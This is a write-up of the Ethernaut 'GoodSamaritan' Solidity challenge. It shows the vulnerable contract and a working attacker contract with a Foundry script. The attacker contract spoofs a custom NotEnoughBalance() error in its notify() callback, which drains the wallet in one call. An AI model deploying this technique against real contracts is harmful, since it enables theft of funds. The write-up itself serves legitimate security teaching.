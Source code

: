# Ethernaut Level 27 GoodSamaritan

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

Our job is to empty the Good Samaritan's wallet. It is impossible to drain the Samaritan's wallet by calling `donate10()` through `requestDonation()` many times since the wallet balance (10 ** 6) is massive. We have to figure out a way to throw the code to the `catch` branch so that the Samaritan will call `wallet.transferRemainder()` to transfer all his balance to us in *one* shot.

To achieve that goal, we have to make the underlying `transfer` function in contract `Coin` revert the exact `NotEnoughBalnce()` error in `try`, then do nothing when in `catch` so that the balance of Samaritan can be successfully transferred.

Note that we can do that by customizing the `function notify(uint256 amount) external`. Just as the Ethernaut documentation for this challenge:

> Custom errors in Solidity are identified by their 4-byte ‘selector’, the same as a function call. They are bubbled up through the call chain until they are caught by a catch statement in a try-catch block, as seen in the GoodSamaritan's `requestDonation()` function. For these reasons, it is not safe to assume that the error was thrown by the immediate target of the contract call (i.e., Wallet in this case). Any other contract further down in the call chain can declare the same error and throw it at an unexpected location, such as in the `notify(uint256 amount)` function in your attacker contract.

`MaliciousDest.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance);
}

contract MaliciousDest {
    error NotEnoughBalance();
    address goodSamaritan;

    constructor(address _goodSamaritan) {
        goodSamaritan = _goodSamaritan;
    }

    function notify(uint256 amount) external {
        if(amount == 10) {
            revert NotEnoughBalance();
        } else {
            this;
        }
    }

    function attack() external returns (bool) {
        return IGoodSamaritan(goodSamaritan).requestDonation();
    }
}
```

In the `notify` logic, if the amount is still 10, we will revert the same error `NotEnoughBalance()`.

`GoodSamaritan.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import {Script, console} from "forge-std/Script.sol";
import {MaliciousDest} from "../src/MaliciousDest.sol";

contract GoodSamaritanScript is Script {
    address goodSamaritanAddress = 0xXXXXXXXXXXXXX;
    MaliciousDest dest;

    function run() external {
        vm.startBroadcast();
        dest = new MaliciousDest(goodSamaritanAddress);
        bool result = dest.attack();
        console.log("Samaritan has enough balance:", result);
        vm.stopBroadcast();
    }

}
```

